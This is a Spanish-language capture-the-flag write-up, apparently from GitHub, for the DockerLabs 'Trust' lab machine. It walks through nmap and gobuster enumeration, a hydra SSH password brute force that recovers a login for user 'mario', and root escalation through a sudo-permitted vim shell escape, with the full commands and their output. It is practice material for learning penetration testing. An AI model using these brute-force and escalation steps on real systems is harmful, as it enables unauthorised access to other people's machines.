 #Trust DockerLabs - 13/05/2024

#web - https://dockerlabs.es/#/

Empezamos realizando un escaneo basico con nmap.

```shell
└─$ nmap -sV -sC -n -p- --min-rate 5000 172.17.0.2                                          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-13 22:22 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00023s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.34 seconds

```

Aqui encontramos un puerto 22 y un puerto 80 me meto en la direccion web "http://172.17.0.2/" y se ve que es una pagina de apache:

![Captura de pantalla 2024-05-13 224854](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/44dee495-8746-4af4-94f8-e41c76ea6cf1)

Buscamos subdominios con gobuster

```shell
└─$ gobuster dir -u "http://172.17.0.2/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,py,bak,php.bak 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              bak,php.bak,php,txt,py
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/secret.php           (Status: 200) [Size: 927]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 813927 / 1323366 (61.50%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 818325 / 1323366 (61.84%)
===============================================================
Finished
===============================================================
                                                                 
```

Encontramos un ficher .php llamado "secret.php" accedo a este fichero y se ve una pagina donde habla de un usuario "mario":

![Captura de pantalla 2024-05-13 225146](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/5b429c97-e09e-4c60-b278-b66b21533728)

Hacemos un ataque de fuerza bruta con hydra hacia el servidor ssh con el usuario mario:

```shell
└─$ hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2/
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-13 22:36:08
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-13 22:36:26           
```

Nos encuentra una contraseña para el usuario mario la probamos y vemos que nos deja entrar:

```shell
└─$ ssh mario@172.17.0.2               
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:z6uc1wEgwh6GGiDrEIM8ABQT1LGC4CfYAYnV4GXRUVE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
mario@172.17.0.2's password: 
Linux eb21e3cbaf4b 6.6.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.9-1kali1 (2024-01-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Mar 20 09:54:46 2024 from 192.168.0.21

```

```shell
mario@eb21e3cbaf4b:~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on eb21e3cbaf4b:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on eb21e3cbaf4b:
    (ALL) /usr/bin/vim

```

Vemos que podemos ejecutar root sin contraseña entonces procedemos a la escalada de privilegios.
Entramos en "https://gtfobins.github.io/#" una pagina web dedicada a la explotacion de estos bins entre otras cosas:
Buscamos "vim" y entramos en "sudo":

![Captura de pantalla 2024-05-13 225938](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/9064fe61-5dda-4bf0-b772-66125e1afe4e)

![Captura de pantalla 2024-05-13 225938](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/9064fe61-5dda-4bf0-b772-66125e1afe4e)

Ejecutamos el comando y vemos que ya somos root:

```shell
mario@eb21e3cbaf4b:~$ sudo vim -c ':!/bin/sh'

```

```shell
# whoami
root

```

